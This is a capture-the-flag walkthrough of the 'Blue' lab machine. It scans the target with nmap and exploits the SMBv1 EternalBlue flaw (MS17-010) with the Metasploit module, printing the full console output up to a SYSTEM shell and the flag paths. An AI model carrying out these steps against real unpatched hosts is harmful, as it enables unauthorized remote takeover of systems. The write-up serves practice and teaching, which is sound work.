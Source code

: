 ### Introduction
Blue is a very simplistic machine to exploit which highlights the seriousness of the EternalBlue exploit (thus the name of this challenge). Reading about it [here on the wiki](https://en.wikipedia.org/wiki/EternalBlue) I learned that EternalBlue was used in widespread attacks such as the WannaCry ransomeware attack in 2017. Due to the way SMBv1 in multiple versions of Microsoft Windows handles specifically crafted packets from this attack, it allows remote code execution on the target computer. [CVE link and information here](https://www.cvedetails.com/cve/CVE-2017-0143/)

### Enumeration 
First I do an nmap scan ```nmap -sC -sV -oA scan 10.10.10.40```. Here's what it outputs:
![nmap scan](https://user-images.githubusercontent.com/41026969/53510149-4d1b2300-3a8b-11e9-86af-d4d14c86671c.PNG)

So doing research on the ports, OS versions, SMB version, and potential exploits, I found out about [EternalBlue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue). Here's the link for the Microsoft webpage explanation [here](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/MS17-010). Cross checking, I see this machine can be used using Eternalblue (and thus the name of this box). 

### Exploitation

So for this exploit we'll use the metasploit module: ```exploit/windows/smb/ms17_010_eternalblue```

Opening up metasploit and setting up the module:

![blue](https://user-images.githubusercontent.com/41026969/54173251-925e2e00-4457-11e9-8de9-4d9263560d9d.PNG)

Also we see that the RHOST (remote host) is currently set to nothing so I set it to 10.10.10.40 (the IP of the box).

When we run the exploit, we successfully get a shell inside the box:
```
msf exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on [host ip]
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened ([host ip] -> 10.10.10.40:49158) at 2019-03-11 23:41:30 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Doing a ```whoami``` check confirms we got basically administrator access (```nt authority\system``` has the highest priviledges on the local system).

Thus we find the flags:

root: ```C:\Users\Administrator\Desktop\root.txt``` 

user: ```C:\Users\haris\Desktop\user.txt``` 
